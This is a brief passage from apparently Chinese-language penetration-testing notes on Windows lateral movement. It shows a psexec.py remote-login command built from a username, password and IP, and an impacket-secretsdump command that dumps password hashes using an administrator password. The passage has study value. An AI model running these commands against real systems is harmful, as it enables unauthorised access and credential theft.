 ![image](images/HyAbOK0LT.png)

取得帳號密碼即可遠端登入
```
psexec.py '<user>:<passowrd>'@<ip>
```
![image](images/B1DFkqALa.png)

#### 以取得hash方式取代password
取得雜湊值腳本
```
impacket-secretsdump 
'administrator:Pa$$w0rd'@192.168.0.22
```